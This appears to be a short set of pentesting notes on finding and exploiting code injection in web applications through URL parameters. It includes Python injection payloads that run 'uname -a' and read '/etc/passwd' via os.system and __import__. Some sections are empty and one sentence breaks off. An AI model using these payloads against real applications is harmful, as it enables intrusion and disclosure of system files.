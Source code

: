 # Code injection

Obvious opportunity for CE ( depending on language used to build application) are urls like the following :
example.com/hey/hacker?param=fish

example.com/hey?id=1

However, this can also be less obvious to spot, for example you could have a url like:

example.com/hey/hacker

By putting a " symbol into the url you a can try and break the application using strings + concatenation

example.com/hey/hacker"

By breaking the application you will hopefully learn more about it, you might discover the language it's built with for example.

You should then try to _fix_ the application by trying to close out the block

example.com/hey/hacker""

should fix the issue, and give you an idea of how you can exploit the application. The next step would be attempting to concatonate using + ( although in a url you would need to encode it so + would become %2B )

example.com/hey/hacker"%2B"

Once you have tested for CE and think you can exploit it, it would then be time to try some language specific exploits

## encoding urls

%2B = +

## php application injection

## ruby application injection

## python application injection

A good way to confirm you have an exploitable web application via Code injection is to 

To get Python applications to run code on the underlying system you can use

`os.system('')`
or
`os.popen('').read()`

so for example linux system info  

`os.system('uname -a')`
`os.popen('uname -a').read()`

show passwd file

`os.system('cat /etc/passwd')`
`os.popen('cat /etc/passwd').read`

Potentially you might encounter errors when trying to use the `os` module. This could mean it's not actually installed on your target.
You can work around this via the `__import__` method.

So to exploit via the URL  

`example.com/hey/hacker"%2Bstr(os.system('cat /etc/passwd')`

`example.com/hey/hacker"%2Bstr(__import__('os').system('cat /etc/passwd'))%2B"`


